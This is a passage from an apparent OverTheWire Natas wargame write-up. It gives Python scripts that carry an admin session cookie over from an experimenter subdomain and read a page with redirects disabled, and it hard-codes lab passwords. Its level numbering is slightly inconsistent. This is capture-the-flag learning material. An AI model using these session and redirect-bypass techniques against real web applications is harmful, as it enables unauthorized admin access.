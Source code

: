 ```python
import requests

target = 'http://natas21.natas.labs.overthewire.org'
auth = ('natas21', '89OWrTkGmiLZLv12JY4tLj2c4FW0xn56')

exp_tar='http://natas21-experimenter.natas.labs.overthewire.org/?debug=true&submit=1&admin=1'


#First POST request to get session of admin from exp_tar
session=requests.Session()
response = session.post(exp_tar, auth=auth)
admin_session = session.cookies['PHPSESSID']
print(response.text)


#Second request to be admin
response = requests.get(target, auth=auth,cookies={"PHPSESSID":admin_session})
print(response.text)
```

You can see also the output of above Python code.
![natas22](images/natas22.png)


# Natas 23
On this lab, I just understood from source code that, we need to block **Redirect** while requesting to specific parameter "revelio" which appeared on source code, too.
That's why to make this request easy for us, Python code is useful for us.We need to allow_redirects=False to GET request.

```python
import requests

target = 'http://natas22.natas.labs.overthewire.org/?revelio=1'
auth = ('natas22', '91awVM9oDiUGm33JdzM7RVLBS8bz9n0s')

session=requests.Session()
response = session.get(target, auth=auth,allow_redirects=False)
print(response.text)
```
